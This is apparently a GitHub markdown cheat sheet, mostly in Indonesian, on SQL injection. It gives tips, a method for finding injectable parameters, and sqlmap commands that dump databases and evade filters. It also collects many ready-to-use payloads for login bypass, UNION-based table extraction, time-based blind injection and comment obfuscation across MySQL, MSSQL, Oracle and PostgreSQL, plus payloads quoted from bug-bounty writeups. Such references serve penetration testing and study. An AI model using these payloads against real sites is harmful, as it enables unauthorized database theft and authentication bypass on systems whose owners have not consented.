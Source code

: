 # SQL Injection

## Tips
- Blind berbeda dengan OOB
- Blind SQL injection generate error 500
- Cari parameter yang reflected ke response
- OOB Channel -> DNS, email, Database connection
- logical true, hanya bisa menggunakan untuk true saja.
- union select 'asd' , bisa merefleksikan 'asd' pada HTTP response 
- Cari parameter yang menjadi penetu perubahan data pada response
- Kalau value parameter yang injection kan adalah string maka mengunnakan 1='1 atau '1'='1'
- Pada injection login, coba test inject for username dahulu, kalau tidak bisa coba inject kedua username dan password
- Error tidak selalu menjadikan patokan bah itu celah sqli, kadang celah tersebut tidak menghasilkan error tetapi ketika kita union 'asd' malah terfeleksikan 'asd' di response body

## langkah-langkah
1. Identifikasi DB yang digunakan, generate error atau show @@database
2. Identify kapan dan dimana aplikasi akan berinteraksi dengan DB Server untuk mengakses data. Kondisi umum interaksi app dengan DB:
    - Authentication form, user dan password akan dicek pada database apakah ada atau tidak (kadang juga hash)
    - Search Engine, string yang disubmit oleh user digunakan untuk mengeksract semua data yang relevant pada database
    - E-commerce site, semua produk e-commerce stored di DB
2. List entry point/parameter yang bisa digunakan untuk menginputkan SQL query, seperti (__GET parameter, POST parameter, HTTP header, cookies__)
3. Coba generate error pada entry point/parameter yang sudah dikumpulkan pada langkah sebelumnya menggunakan `'` (digunakan untuk memisahkan string) dan `;` (digunakan untuk mengakhiri kueri SQL)
4. Coba meng-injek payload tanpa break query, bisa mengguna comment

## SQLMap
```
    sqlmap -u 'http://google.com' -D <nameDB> -T <namaTable> --dump
    sqlmap -u 'http://google.com' -p user-agent --random-agent --technique=U --tamper=space2comment --suffix=';#' union-char=els --banner //Digunakan jika server blok spasi dan menggunakan commen '#'
```

## Payload
|Payload|Payload alternatif|
|---|---|
|Logical True/false|`' OR 1=1` biasaya pake ini<br>`' OR 6=6`<br>`' OR 0x47=0x47`<br>`' OR char(32)=6''`<br>`' OR 6 is not null`<br>`admin' --`<br>`admin' #`<br>`admin'/*`<br>`' or 1=1--`<br>`' or 1=1#`<br>`' or 1=1/*`<br>`') or '1'='1--`<br>`') or ('1'='1--`|
|`UNION SELECT asd`|`UNION SELECT` <br> `'UNION ALL SELECT` <br> `') uZEROFILLnZEROFILLiZEROFILLoZEROFILLn sZEROFILLeZEROFILLlZEROFILLeZEROFILLcZEROFILLt 'PoC'; -- -`|
|`+UNION+SELECT+1,2,(table_name),4,5+from+information_schema.tables--+`|`union select 1,2,group_concat(table_name),4,5 from information_schema.tables where table_schema=database()—`<br>`'union(select('asd');# ->digunakan ketika comment diblok` <br> `union(select(group_concat(table_name))from(information_schema.columns/tables)where(table_schema=database()));#`<br>`union select group_concat(table_name) from information_schema.tables where table_schema=schema(); —- - (MySQL)`|
|' AND (SELECT 9160 FROM (SELECT(SLEEP(1-(IF(2085>2084,0,5)))))htyF) AND 'SyEv'='SyEv|' AND (SELECT 2484 FROM (SELECT(SLEEP(5)))wMTT) AND 'pbuG'='pbuG|
```
http://192.168.2.3/news-and-events.php?id=-22 union select 1,group_concat(table_name),3,4,5,6,7 from information_schema.tables where table_schema=database()— //extract table name
```

|Database|Comment|
|---|---|
|Oracle|`--comment`|
|MySQL|`-- comment` `-- -comment` `; -- -comment` `#comment` `/*comment*/`(also obfuscator) `;%00`(nullbyte) `+--+/`|
|PostgreSQL|`--comment` `/*comment*/`|
|Microsoft|`--comment` `/*comment*/`|

  ```
  <spasi_kosong>
  '
  ')
  '))
  " / ") / "))
  `
  `)
  `))
  ```
  
|DB|Function (non-blind)|Function (blind)->string concatenation|Function (blind)->all function return an INTEGER NUMBER in the respective database while generate ERROR on all others|
|---|---|---|---|
|MySQL|@@version<br>@@global.version<br>version()|'Concat' 'enation'<br>CONCAT('Concat','enation')|CONNECTION_ID()<br>LAST_INSERT_ID()<br>ROW_COUNT()<br>...|
|MS SQL| @@version|'some'+'enation'<br>CONCAT('Concat','enation')|@@PACK_RECEIVED<br>@@ROW_COUNT<br>@@TRANCOUNT<br>...|
|Oracle|version FROM v$instance<br>banner FROM v$version WHERE banner LIKE 'oracle%'<br>banner FROM gv$version WHERE banner LIKE 'oracle%'|'Concat'\|\|'enation'<br>CONCAT('Concat','enation')|BITAND(0,1)<br>BIN_TO_NUMB(1)<br>TO_NUMBER(1231)<br>...|
    
## Writeups
|Title|Description|
|---|---|
|[SQL Injection at Spotify](https://infosecwriteups.com/sql-injection-at-spotify-d19e0861ddf0)|inject `' atau / atau \` dan amati error yang.<br>![image](https://user-images.githubusercontent.com/52058660/159397667-09fa2fdc-f9ec-4a36-b8dc-cd6cce2bc1f1.png)<br>![image](https://user-images.githubusercontent.com/52058660/159397603-504a8a1c-acf9-4ae1-8725-978f06f6061a.png)<br>![image](https://user-images.githubusercontent.com/52058660/159397728-b70f35f9-ab12-43cc-9483-67b9806c1ba9.png)<br>![image](https://user-images.githubusercontent.com/52058660/159397801-3e97cac7-76cb-46ca-9b08-7dde6c0a73a7.png)|
|[How I Hacked the Dutch Government with SQLi and Won the Famous T-Shirt?](https://goktugkaya.medium.com/how-i-hacked-the-dutch-government-and-won-the-famous-t-shirt-b45cdf5dfaa1)|Change GET to POST|
|[How I found a critical P1 bug in 5 minutes using a cellphone — Bug Bounty](https://medium.com/@mrempy/how-i-found-a-critical-p1-bug-in-5-minutes-using-a-cellphone-bug-bounty-303ebec3edd6)|injeksi pada login form<br>`admin’ and (select * from(select(sleep(40)))SQLI) and ‘abc’ = ‘abc`<br>menggunakan kiwi browser untuk menangkap request|
|[120 Days of High Frequency Hunting](https://kuldeep.io/posts/120-days-of-high-frequency-hunting/)|time delay vuln<br>`'; WAITFOR DELAY '00:00:10'-- -`|
|[Making a Blind SQL Injection a Little Less Blind](https://medium.com/@tomnomnom/making-a-blind-sql-injection-a-little-less-blind-428dcb614ba8)|sqli pada json, jika inject ' -> error, coba netralisir dengan /*'*/|
|[bypass sql injection #1109311](https://hackerone.com/reports/1224660)|`0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z`|
|[FUZZING FOR HIDDEN PARAMS](https://medium.com/@calfcrusher/fuzzing-for-hidden-params-671724bf3fd7)|fuzzing hidden parameter menggunakan ffuf dan payload arjun<br>https://github.com/Bo0oM/ParamPamPam/blob/master/params.txt|
|[Box 3: HTB - Vaccine](https://vict0rle.medium.com/box-3-htb-vaccine-393b2484e018)<br>[某站点的简单测试](http://hone.cool/2018/08/17/%E6%9F%90%E7%AB%99%E7%82%B9%E7%9A%84%E7%AE%80%E5%8D%95%E6%B5%8B%E8%AF%95/)|unable to prompt for an interactive operating system shell via the back-end DBMS because stacked queries SQL injection is not supported|

## Resource
- [Web Security Academy - SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [HackTricks -  SQL Injection](https://book.hacktricks.xyz/pentesting-web/sql-injection)
- [Netsparker - SQL Injection Cheat Sheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
- [Finding an unseen SQL Injection by bypassing escape functions in mysqljs/mysql](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)
- [BigQuery SQL Injection Cheat Sheet](https://ozguralp.medium.com/bigquery-sql-injection-cheat-sheet-65ad70e11eac)
- [Dumping a complete database using SQL injection [updated 2021]](https://resources.infosecinstitute.com/topic/dumping-a-database-using-sql-injection/)
- [SQLMap - Operating System Takeover - Windows](https://amolnaik4.blogspot.com/2012/05/sqlmap-operating-system-takeover.html)
